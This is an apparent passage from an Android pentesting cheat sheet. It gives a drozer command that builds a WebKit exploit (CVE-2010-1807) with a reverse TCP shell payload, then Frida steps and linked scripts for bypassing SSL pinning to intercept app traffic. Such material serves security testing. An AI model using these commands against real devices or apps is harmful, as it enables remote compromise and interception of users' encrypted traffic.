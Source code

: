 ```bash
# example : CVE-2010-1807
drozer exploit build exploit.remote.webkit.nanparse –-payload weasel.reverse_tcp.armeabi  
--server 10.0.2.2:31415 --push-server 127.0.0.1:31415 --resource /home.html
```

## Manual

### Disable SSL Pinning

**Resources :**

* [https://infosecwriteups.com/hail-frida-the-universal-ssl-pinning-bypass-for-android-e9e1d733d29](https://infosecwriteups.com/hail-frida-the-universal-ssl-pinning-bypass-for-android-e9e1d733d29)
* [https://kishorbalan.medium.com/its-all-about-android-ssl-pinning-bypass-and-intercepting-proxy-unaware-applications-91689c0763d8](https://kishorbalan.medium.com/its-all-about-android-ssl-pinning-bypass-and-intercepting-proxy-unaware-applications-91689c0763d8)
* [https://blog.certcube.com/android-ssl-pinng-bypass-with-frida/](https://blog.certcube.com/android-ssl-pinng-bypass-with-frida/)

#### Frida

```bash
'''
FRIDA SSL PINNING
'''
pip install frida-tools

# get android device architecture
getprop ro.product.cpu.abi

# get frida-server depending on the android device architecture
# https://github.com/frida/frida/releases
# extract it
adb push /path/to/frida-server /data/local/tmp

# Push the Burp Suite SSL certificate to the device
adb push /path/to/burpca-cert-der.crt /data/local/tmp/cert-der.crt

# Now we will need to make the server executable
adb shell “chmod 755 /data/local/tmp/frida-server”

# With the frida-server and certificate in place we need to execute it.
adb shell

# Once you have a shell switch to the root user of the device.
su

# Lastly, we will move to the correct folder and execute frida-server
cd /data/local/tmp
./frida-server

# SCRIPTS
# https://codeshare.frida.re/@akabe1/frida-multiple-unpinning/
# https://codeshare.frida.re/@akabe1/frida-multiple-unpinning/
# https://codeshare.frida.re/@pcipolloni/universal-android-ssl-pinning-bypass-with-frida/
# https://codeshare.frida.re/@pcipolloni/universal-android-ssl-pinning-bypass-with-frida/

# ON HOST
# hook the script using Frida using the command:
frida -U -f $package script.js
```
